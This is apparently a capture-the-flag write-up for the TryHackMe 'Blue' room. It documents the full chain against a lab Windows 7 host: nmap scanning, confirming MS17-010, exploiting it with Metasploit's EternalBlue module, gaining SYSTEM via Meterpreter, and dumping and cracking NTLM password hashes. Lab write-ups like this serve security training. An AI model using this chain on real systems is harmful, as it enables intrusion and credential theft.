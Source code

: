 # Matheus Jesus 03-04-2020

## Try Hack Me - [Blue](https://tryhackme.com/room/blue)

### IP 10.10.130.202

#### 1.Nmap

nmap -sC -sV -oN nmap_initial 10.10.130.202

##### Recommended: nmap -sV -vv --script vuln TARGET_IP

```text
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### 2. SMB* Scripts

nmap --script=smb* 10.10.130.202

locate .sne | grep smb

subl /usr/share/nmap/scripts/smb-vuln-regsvc-dos.nse

/usr/share/nmap/scripts/smb-vuln-ms17-010.nse

nmap --script=/usr/share/nmap/scripts/smb-vuln-ms17-010.nse

* Host script results:

```text
| smb-vuln-ms17-010:
|   VULNERABLE
```

#### 3. Metasploit

msfconsole
search ms17 -> exploit/windows/smb/ms17_010_eternalblue

set RHOST 10.10.130.202
show options
run

##### 3.1 Escalate -> Shell To Meterpreter

post/multi/manage/shell_to_meterpreter
set SESSION 1
exploit

on meterpreter, run getuid -> NT AUTHORITY\SYSTEM

ps

```text
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 444   704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 560   548   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 608   548   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 616   600   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 656   600   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 704   608   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 712   608   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 720   608   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 752   1308  cmd.exe               x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\cmd.exe
 772   704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 808   560   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 828   704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 844   560   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 896   704   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 944   704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1012  656   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 1072  704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1152  704   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1288  704   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1308  1828  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
 1332  704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1416  704   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1472  704   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1612  704   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1828  1860  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1912  704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1916  704   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 2060  704   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 2068  828   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2208  1288  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 2216  828   WmiPrvSE.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbem\WmiPrvSE.exe
 2272  560   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2416  704   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2584  704   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 2952  704   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 3020  704   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 3068  704   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
```

migrate -N winlogon.exe (PI 656)

#### 4. Password Crack

On meterpreter

hashdump

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Access
https://crackstation.net/
ffb43f0de35be4d9917ac0cc8ad57f8d -> alqfna22

#### 5. Flags

* Flag1.txt on C: -> {access_the_machine}
* Flag2.txt on C:/Windows/System32/config
* Flag3.txt on C:/Users/Jon/Documents

DONE!
